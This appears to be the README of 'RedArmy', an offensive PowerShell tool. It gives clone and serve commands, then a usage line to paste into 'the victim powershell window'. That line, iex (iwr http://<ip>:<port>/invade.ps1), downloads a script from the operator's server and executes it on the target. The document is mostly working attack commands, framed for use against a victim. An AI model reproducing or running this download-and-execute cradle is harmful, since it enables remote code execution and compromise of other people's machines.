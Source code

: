 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ ./serve [--port PORT] [--update] <ip>
```

## Usage

Once the `serve` script is running, you can copy and paste the output
into the victim powershell window.

```
iex (iwr -UseBasicParsing http://<ip>:<port>/invade.ps1)
```
